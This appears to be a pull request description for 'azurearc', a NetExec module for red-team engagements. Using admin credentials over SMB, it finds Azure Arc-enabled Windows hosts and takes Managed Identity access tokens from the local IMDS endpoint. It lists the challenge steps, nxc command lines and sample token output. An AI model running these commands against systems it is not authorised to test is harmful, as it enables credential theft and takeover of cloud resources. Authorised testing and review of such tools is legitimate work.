 New module, **`azurearc`**, which detects whether a Windows host is Azure Arc–enabled and, if so, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented 401 challenge → `.key` file → second request flow.

## Behavior:
Presence check via SMB listing of:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval executed locally on target with PowerShell:
1. GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read .key contents (local admin privileges required)
2. second GET with Authorization: Basic <key>.
Write JSON to outfile, fetch via SMB, delete outfile.


- **Protocols:** SMB (requires administrative privileges)
- **Capabilities:**
  - **CHECK mode:** enumerate presence of the Azure Connected Machine Agent (Arc) by listing well-known install paths
  - **Default mode:** perform the IMDS challenge/response locally on the target and return the JSON containing the `access_token`
- **Use case:** Quickly map Arc deployment across estate and retrieve a cloud-scoped token for Azure control-plane actions during engagements.

---

## Screenshot
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/b25305f9-1946-4e6c-8c9f-028e0bded0ff" />


**Presence check only (Arc installed)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed

**Presence check only (Arc not installed)**
nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found

**Dump token (success)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
"access_token":"eyJhbGciOi...<redacted>...",
"expires_on":"1730812345",
"token_type":"Bearer",
"resource":"https://management.azure.com
"
}

# Setup guide for the review
git clone https://github.com/Pennyw0rth/NetExec.git
* Add the module file at:
nxc/modules/azurearc.py


# Run from source against a lab target
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
* python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
